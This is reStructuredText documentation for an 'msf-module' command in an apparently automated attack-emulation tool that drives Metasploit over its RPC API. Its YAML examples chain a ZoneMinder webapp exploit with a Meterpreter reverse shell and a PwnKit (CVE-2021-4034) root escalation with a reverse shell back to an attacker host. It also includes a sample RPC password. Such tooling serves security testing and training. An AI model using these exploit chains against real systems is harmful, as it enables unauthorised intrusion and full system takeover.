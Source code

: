.. _msf-module:

==========
msf-module
==========

This command executes Metasploit-Modules via Metasploits RPC-Api.

.. note::

   To configure the connection to the msfrpc-server see :ref:`msf_config`

Some Metasploit-Modules return output. Like the Auxilary-Modules:

.. code-block:: yaml

   msf_config:
     password: hackhelfer
     server: 10.18.3.86

   commands:
     - type: msf-module
       cmd: auxiliary/scanner/portscan/tcp
       options:
         RHOSTS: 192.42.0.254

Most Exploit-Modules don't create output but instead they create
sessions(see :ref:`msf-session`)

.. code-block:: yaml

   msf_config:
     password: hackhelfer
     server: 10.18.3.86

   commands:
     - type: msf-module
        cmd: exploit/unix/webapp/zoneminder_snapshots
        creates_session: "foothold"
        options:
          RHOSTS: 192.42.0.254
        payload_options:
          LHOST: 192.42.2.253
        payload: cmd/unix/python/meterpreter/reverse_tcp

.. confval:: cmd

   This option stores the path to the metasploit-module.

   :type: str

   .. note::

     Please note that the path includes the module-type.


.. confval:: target

   This option sets the payload target for the metasploit-module.

   :type: int
   :default: ``0``

.. confval:: creates_session

   A session name that identifies the session that is created by
   the module. This session-name can be used by :ref:`msf-session`

   :type: str

.. confval:: session

   This option is set in exploit['SESSION']. Some modules(post-modules)
   need a session to be executed with.

   :type: str

.. confval:: payload

   Path to a payload for this module.

   :type: str

   The following example illustrates the use of sessions and payloads:

   .. code-block:: yaml

      commands:
        - type: msf-module
           cmd: exploit/unix/webapp/zoneminder_snapshots
           creates_session: "foothold"
           options:
             RHOSTS: 192.42.0.254
           payload_options:
             LHOST: 192.42.2.253
           payload: cmd/unix/python/meterpreter/reverse_tcp

         - type: msf-module
           cmd: exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
           session: "foothold"
           creates_session: "root"
           options:
             WRITABLE_DIR: "/tmp"
           payload_options:
             LHOST: 192.42.2.253
             LPORT: 4455
           payload: linux/x64/shell/reverse_tcp

.. confval:: options

   Dict(key/values) of module options, like RHOSTS:

   :type: Dict[str,str]

.. confval:: payload_options

   Dict(key/values) of payload options, like LHOST and LPORT:

   :type: Dict[str,str]
